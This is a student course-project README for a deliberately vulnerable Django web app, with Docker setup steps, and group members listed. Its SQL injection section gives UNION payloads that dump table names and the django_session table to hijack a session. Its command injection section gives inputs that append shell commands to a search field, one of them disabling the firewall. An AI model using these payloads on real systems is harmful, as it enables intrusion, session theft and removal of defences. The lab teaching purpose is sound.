 # CN351-webSec

## SetUp project in visual machine
1. Clone project from github to `/home/kali/`
2. Install docker and docker-compose
```bash
$ sudo apt install docker.io
$ sudo systemctl enable docker --now
$ sudo usermod -aG docker $USER

$ sudo apt install docker-compose
```
3. Run docker-compose up -d
```bash ~/CN351-webSec
$ docker-compose up -d
```
4. setup requirement
```bash ~/CN351-webSec
$ sudo apt install pkg-config
$ sudo apt install python3-venv
$ sudo apt install python3-dev

$ python3 -m venv .venv
$ source .venv/bin/activate
$ pip install -r requirements.txt
```
5. change database HOST <br>
    -- comment 'HOST': '127.0.0.1', <br>
    -- uncomment new HOST <br>
6. add service to `/etc/systemd/system`
```bash
$ sudo cp cn351.service /etc/systemd/system
```
7. enable service
```bash
$ sudo systemctl deamon-reload
$ sudo systemctl enable cn351
$ sudo systemctl start cn351
```

## SQL Injection
1. Go to http://<target-ip/domain>/?search=
2. Try to search with SQL Injection Example:
```url
/?search=' UNION SELECT table_schema,  table_name, NULL, NULL, NULL FROM information_schema.table_constraints;
/?search=' UNION SELECT *, NULL, NULL FROM db_websec.django_session;
```
3. Change sessionid to sessionid in django_session table

## Command Injection
1. Go to http://<target-ip/domain>/logging/?search=
2. Try to search with Command Injection Example:
```input
200 && echo $USER
```
```input
302 && systemctl list-units --type=service
```
```input
404 && ufw disable
```

## Group Member
1. 6410615022   ชัญญานุช จำนงนิตย์
2. 6410615113   พิชชากานต์ ลีพุด
3. 6410685215	พชรพล ทัพผักแว่น